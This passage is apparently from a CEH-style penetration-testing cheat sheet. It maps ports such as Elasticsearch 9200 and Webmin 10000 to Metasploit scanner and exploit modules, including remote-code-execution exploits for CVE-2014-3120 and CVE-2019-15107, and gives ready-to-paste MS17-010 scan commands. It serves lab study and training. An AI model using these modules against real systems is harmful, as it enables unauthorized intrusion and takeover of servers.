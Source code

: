     *   Purpose: Executes Groovy code in the Jenkins Script Console for a shell.
___

## Port 9200 - Elasticsearch

**Common Service:** Elasticsearch REST API

*   **Auxiliary #1 (Info/Data Disclosure):**

    *   `use auxiliary/scanner/elasticsearch/indices_enum`

    *   Purpose: Enumerates all database indices if authentication is off.

*   **Exploit #2 (RCE - CVE-2014-3120):**

    *   `use exploit/multi/elasticsearch/script_mvel_rce`

    *   Purpose: Executes arbitrary Java code on older versions with scripting enabled.

  ___

## Port 10000 - Webmin

**Common Service:** Webmin System Administration

*   **Auxiliary #1 (Brute Force):**

    *   `use auxiliary/scanner/webmin/webmin_login`

    *   Purpose: Bruteforces the Webmin login.

*   **Exploit #2 (RCE - CVE-2019-15107):**

    *   `use exploit/linux/http/webmin_backdoor`

    *   Purpose: Exploits a backdoor in `password_change.cgi` for unauthenticated RCE.


---

# CEH Metasploit Toolkit #metasploit_tookit  – Detection → Exploitation Map (Refactor)

> One‑to‑one mapping of **checks (detection)** to the **corresponding Metasploit exploit/module** with ready‑to‑paste commands. Keep this open during labs.

---

## A) Network/Remote Vulns

### A.1 MS17‑010 (EternalBlue)

**Detect**

```text
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <ip_or_cidr>
set THREADS 25
run
```

